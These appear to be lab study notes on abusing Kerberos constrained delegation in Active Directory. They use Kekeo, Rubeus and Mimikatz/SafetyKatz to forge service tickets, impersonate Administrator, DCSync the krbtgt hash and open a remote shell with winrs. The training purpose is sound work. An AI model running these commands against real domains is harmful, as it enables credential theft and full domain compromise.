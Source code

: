 > This is huge as it allows access to many interesting services when the delegation may be for a non-intrusive service!



## Kekeo

**Abusing with Kekeo**

Either plaintext password or NTLM hash is required. If we have access to dcorp-adminsrv hash

Using asktgt from Kekeo, we request a TGT:
```powershell
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67
```

Using s4u from Kekeo_one (no SNAME validation):
```powershell
tgs::s4u /tgt:TGT_dcorp-adminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi/user:Administrator@dollarcorp.moneycorp.local /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorp-dc.dollarcorp.moneycorp.LOCAL
```

Using mimikatz:
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~dcorp-dc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL_ALT.kirbi"'   
Invoke-Command -ScriptBlock{whoami} -ComputerName us-mssql.us.techcorp.local   
Invoke-Mimikatz -Command '"lsadump::dcsync/user:dcorp\krbtgt"'
```

## Rubeus

**Abusing with Rubeus**

We can use the following command (We are requesting a TGT and TGS in a single command):
```powershell
Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b445 /impersonateuser:Administrator/msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```	

After injection, we can run DCSync:
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```
OR
```powershell
Rubeus.exe s4u /user:appsvc /rc4:1D49D390AC01D568F0EE9BE82BB74D4C /impersonateuser:administrator /msdsspn:CIFS/us-mssql.us.techcorp.local /altservice:HTTP /domain:us.techcorp.local /ptt

winrs -r:us-mssql cmd.exe
```

Learning Objective 16

Enumerate users in the domain for whom Constrained Delegation is enabled:
